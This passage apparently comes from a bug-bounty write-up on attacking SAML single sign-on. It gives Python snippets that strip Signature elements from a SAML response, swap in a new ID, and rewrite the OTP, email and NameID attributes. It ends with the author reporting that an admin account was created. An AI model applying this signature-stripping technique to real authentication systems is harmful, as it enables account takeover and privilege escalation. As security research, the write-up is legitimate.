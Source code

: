 — If you got lost in here, refer to the “SAML Response Structure” section in the first part of the write-up for guidance —

1. Password:

well i didn’t do anything with the password, because i enterd the comapny email so it is no use

2. i changed the ID :

ID=”b261eb3afa7ee41b11f2965608172e35" :

Every request has a unique ID and technically we are sending a new reqeust so it needs a new ID, I generated a new ID using UUID.

import uuid  
  
new_id = str(uuid.uuid4())  
print(new_id) 

3. Removes all `<Signature>` elements from the manipulated response.

for i in evilroot.xpath('//*[local-name(.)=\'Signature\']'):  
    i.getparent().remove(i)

By doing this i was able to bypass the validation mechanisms that would otherwise ensure the response’s authenticity. This step is critical in testing how a system handles tampered or unsigned responses.

4. Modify Attributes

evilroot.xpath('//*[local-name(.)=\'Attribute\' and @Name=\'account_manager_otp\']')[0][0].text = 'new_otp_value'  
evilroot.xpath('//*[local-name(.)=\'Attribute\' and @Name=\'Email\']')[0][0].text = 'newemail@example.com'  
evilroot.xpath('//*[local-name(.)=\'NameID\']')[0].text = 'newemail@example.com'  

I updated specific attributes in the SAML response to test the system’s handling of altered data

![](https://miro.medium.com/v2/resize:fit:300/1*aN0Avjoqwo0GstmcrVoJcA.jpeg)

Well, that’s kinda boring (even tho manually it’s more efficient), so I made a Python script to automate the whole process of tweaking the SAML response : [https://github.com/0xxnum/saml_injector/blob/main/saml_injector.py](https://github.com/0xxnum/saml_injector/blob/main/saml_injector.py)

This script takes a SAMLResponse as a command-line argument, decodes it from base64, and parses the XML structure. It removes the original digital signature and modifies specified attributes within the response, such as the OTP, email, and user identifier (in my case). After applying these changes, it re-encodes the modified SAMLResponse back to base64 and prints the new value. This modified response can be used to simulate attacks or test vulnerabilities in SAML-based authentication systems, and you can customize the attributes based on your target’s requirements.

and then i ran the script in python3 with the oringnal SAMLResponse as argument

python3 script.py <OriginalSAMLResponse>

and then i Replaced the parameter value with the one given by the script and forward the request, and the admin acccount had been created!

![](https://miro.medium.com/v2/resize:fit:700/1*5k5FzvDvXMm7dYGk9f_ahA.png)
